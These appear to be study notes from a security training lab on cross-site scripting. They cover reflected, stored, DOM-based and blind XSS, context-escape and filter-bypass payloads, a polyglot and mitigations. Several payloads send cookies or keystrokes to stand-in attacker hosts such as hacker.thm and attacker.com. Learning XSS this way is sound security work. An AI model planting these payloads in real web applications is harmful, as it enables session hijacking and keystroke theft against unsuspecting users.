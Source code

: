 Cross-Site Scriptinng is an injection attack where malicious JavaScript gets injected into a webapp and gets executed.

## XSS Payloads
A payload is the JavaScript code executed on the victim’s browser. Every payload consists of two elements:
- **Intention** – What the payload should do (e.g., alert box, cookie theft)
- **Modification** – Adjustments to ensure execution in different contexts
### Common Payload Intentions
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
#### Proof of Concept

```html
<script>alert('XSS');</script>
```

#### Session Stealing

```html
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

#### Keylogger

```html
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key)); }</script>
```

#### Business Logic Abuse

```html
<script>user.changeEmail('attacker@hacker.thm');</script>
```

---
## Types of XSS

### Reflected XSS
- Occurs when user input in a request is reflected in the response without validation.
- Example: `?error=<script>alert('XSS')</script>`

**Testing:**  
Check reflection points in:
- URL query parameters
- File paths
- (Sometimes) HTTP headers

**Impact:**  
Attackers can craft malicious links that, when clicked by victims, execute arbitrary scripts.

---
### Stored XSS
- Payload is stored on the web application (e.g., in a database) and later executed for other users.
- Common locations: blog comments, profile fields, product listings

**Example:**

```html
<script>alert('XSS')</script>
```

**Impact:**  
Malicious code executes every time users view the affected content.

**Testing Tips:**
- Bypass frontend-only restrictions (e.g., change a dropdown field value to a script via manual request)    

---
### DOM-Based XSS

- Vulnerability exists in client-side JavaScript, not backend.
- Triggered via DOM manipulation using attacker-controlled input.

**Example:**

```js
document.getElementById("output").innerHTML = window.location.hash;
```

Payload: `https://site/#<script>alert(1)</script>`

**Impact:**  
Can lead to content injection, redirection, session theft.

**Testing:**
- Look for unsanitized use of:
    - `window.location`
    - `document.referrer`
    - `document.write()`
    - `eval()`        

---
### Blind XSS
- Like stored XSS, but the attacker cannot see the result directly.
- Payload is triggered in a different context (e.g., admin portal, staff ticket viewer).

**Example:**  
Support form accepts input:

```html
<script>fetch('https://attacker.com?c=' + document.cookie);</script>
```

**Impact:**  
Leaks sensitive staff session data or portal content.

**Testing Tools:**
- [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)    
---
## Perfecting  a payload

### Level 1 – Reflected in raw HTML

Payload:

```html
<script>alert('THM');</script>
```

### Level 2 – Reflected in input `value=""` attribute

Payload to escape the input value:

```html
"><script>alert('THM');</script>
```

### Level 3 – Reflected in `<textarea>`

Payload to escape out of the textarea:

```html
</textarea><script>alert('THM');</script>
```

### Level 4 – Injected inside a JavaScript block
``` HTML
<script>
	document.getElementsByClassName('name')[0].innerHTML='David';
</script>
```

Payload to escape the innerHTML in JS:

```js
';alert('THM');// 
```

### Level 5 – Filter removes the word `script`
``` HTML
<h2>   Hello, <>alert('THM');</>  </h2>
```
Bypass filter with:

```html
<sscriptcript>alert('THM');</sscriptcript>
```

After filter → becomes:

```html
<script>alert('THM');</script>
```

### Level 6 – Reflected in an `img` tag, angle brackets filtered
 
 The < and > characters get filtered out from our payload, preventing us from escaping the IMG tag.
 
Payload was: `/images/cat.jpg" onmouseover=alert(1)` resulted in:
``` HTML 
<img src="/images/cat.jpg" onload="alert(1)&quot;">
```
Bypass with:
```html
/images/cat.jpg" onload="alert(1)
```

---

## XSS Polyglot

An XSS polyglot can bypass filters, escape contexts, and trigger execution across many different scenarios.

Polyglot Payload:

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

## Mitigation Strategies

- Escape special HTML characters (`<`, `>`, `"`, `'`, `&`)
    
- Apply strict **Content-Security-Policy (CSP)**
    
- Sanitize and validate all user input on the **server-side**
    
- Avoid using `innerHTML`, `eval()`, or `document.write()` with untrusted data
    
- Use frameworks that automatically prevent XSS (e.g., React, Angular)
    




# Reflected XSS
this type of XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

# Stored XSS
this type happens when the XSS payload is stored in the web application (commonly its database) in the way that it then runs on every users that tries to access or interact with the site or web page where it is triggered. 
